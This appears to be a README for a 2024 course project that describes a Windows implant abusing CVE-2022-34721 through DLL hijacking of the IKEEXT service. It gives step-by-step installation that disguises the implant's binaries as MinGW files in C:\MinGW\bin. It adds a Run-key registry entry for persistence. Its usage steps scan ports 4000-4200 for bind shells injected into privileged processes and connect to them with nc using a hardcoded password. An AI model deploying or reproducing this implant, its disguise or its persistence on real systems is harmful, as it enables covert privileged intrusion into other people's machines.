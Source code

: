 # [2024 HACS408T] GB Workstation Implant
This implant takes exploits the *CVE-2022-34721* vulnerability, hijacking the missing "wlbsctrl.dll" library loaded by the *IKEEXT* (Windows IPsec IKE and AuthIP) service. 
![img1.png](img1.png)

### Installation:
- The compiled binaries can be found archived in the root of the repo, *implant.zip*. 
- Extract this zip on the target (GB Workstation) as follows:
	- "libnt.dll" should be placed at `C:\MinGW\bin\libnt.dll`
	- "wlbsctrl.dll" should be placed at `C:\MinGW\bin\wlbsctrl.dll`
	- "mingw32-d++.exe" should be placed at `C:\MinGW\bin\mingw32-d++.exe`
- Additionally, please also make the following entry in the Windows Registry (just incase the dll doesn't load for whatever rzn.. this is the exe version LOL)
	- `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`
	- Name: "MinGW"
	- Type: REG_SZ
	- Data: `C:\MinGW\bin\mingw32-d++.exe`

### Usage:
After restarting the *IKEEXT* service (manually or by reboot), the attacking computer can run:
- `$ nmap <target_ip> -p 4000-4200`
	- Any open ports on this range are bind shells injected into privileged processes on the workstation. 
- You can connect to these using `nc <target_ip> <port>`
	- When prompted for a password, you may write "yea". Check the code if you're interested, was too lazy to encrypt strings ^-^

![img2.png](img2.png)
